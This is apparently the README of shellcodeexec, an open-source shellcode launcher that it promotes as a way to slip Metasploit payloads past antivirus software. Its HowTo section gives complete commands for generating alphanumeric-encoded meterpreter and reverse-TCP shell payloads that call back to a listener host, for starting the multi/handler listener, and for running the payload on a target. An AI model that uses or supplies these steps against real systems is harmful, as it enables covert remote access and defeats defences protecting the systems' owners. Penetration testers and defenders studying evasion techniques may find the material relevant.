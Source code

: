 ## Seems Legit!

<img src="https://user-images.githubusercontent.com/1311155/151514702-60df0e78-cb91-491d-8e88-2ff672a97712.jpeg" alt="Definitely not fake!">

## Background

Most of the shellcode launchers out there, including proof of concepts part of many "security" books, detail how to allocate a memory page as readable/writable/executable on POSIX systems, copy over your shellcode and execute it. This works just fine. However, it is limited to POSIX, does not necessarily consider 64-bit architecture and Windows systems.

## Description

shellcodeexec is an open source script to execute in memory a sequence of opcodes.

This script and the relevant project files (Makefile and Visual Studio files) allow you to compile the tool once then run your shellcode across different architectures and operating systems.

Moreover, it solves a common real world issue: the target system's anti virus software blocking a Metasploit-generated payload stager (either EXE of ELF). Take for instance the following command line:

    $ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=process LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/shikata_ga_nai -o /tmp/payload.exe -t exe

This generates a Metasploit payload stager, payload.exe, that as soon as it lands on the AV-protected target system is recognized as malicious and potentially blocked (depending on the on-access scan settings) by many anti virus products. At the time of writing this text, 21 out 41 anti viruses detect it as malicious - http://goo.gl/HTw7o. By encoding it multiple times with msfencode, less AV softwares detect it, still a lot.

I have been surfing the Net and found some interesting tutorials and guides about packing, compressing, obfuscating and applying IDA-foo to portable executables et similar in order to narrow down the number of AV products that can detect it as a malicious file. This is all interesting, but does not stop few hard-to-die anti viruses to detect your backdoor.

So the question is, how cool would it be to have a final solution to avoid all this hassle? This is exactly where this tool comes into play!

## Features

shellcodeexec:

* Can be compiled and works on POSIX (Linux/Unices) and Windows systems.
* Can be compiled and works on 32-bit and 64-bit architectures.
* As far as I know, no AV detect it as malicious.
* Works in DEP/NX-enabled environments: it allocates the memory page where it stores the shellcode as +rwx - Readable Writable and eXecutable.
* It supports alphanumeric encoded payloads: you can pipe your binary-encoded shellcode (generated for instance with Metasploit's msfpayload) to Metasploit's msfencode to encode it with the alpha_mixed encoder. Set the BufferRegister variable to EAX registry where the address in memory of the shellcode will be stored, to avoid get_pc() binary stub to be prepended to the shellcode.
* Spawns a new thread where the shellcode is executed in a structure exception handler (SEH) so that if you wrap shellcodeexec into your own executable, it avoids the whole process to crash in case of unexpected behaviours.

## HowTo

1. Generate a Metasploit shellcode and encode it with the alphanumeric encoder. For example for a Linux target:
```
$ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
```
Or for a Windows target:
```
$ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
```
2. Execute the Metasploit multi/handler listener on your machine. For example for a Linux target:
```
$ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```
Or for a Windows target:
```
$ msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```
3. Execute the alphanumeric-encoded shellcode with this tool. For example on the Linux target:
```
$ ./shellcodeexec <msfencode's alphanumeric-encoded payload>
```
Or, on the Windows target:
```
C:\WINDOWS\Temp>shellcodeexec.exe <msfencode's alphanumeric-encoded payload>
```

## License

This source code is free software; you can redistribute it and/or modify it under the terms of the GNU Lesser General Public License as published by the Free Software Foundation; either version 2.1 of the License, or (at your option) any later version.

This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License along with this library; if not, write to the Free Software Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston, MA  02110-1301  USA
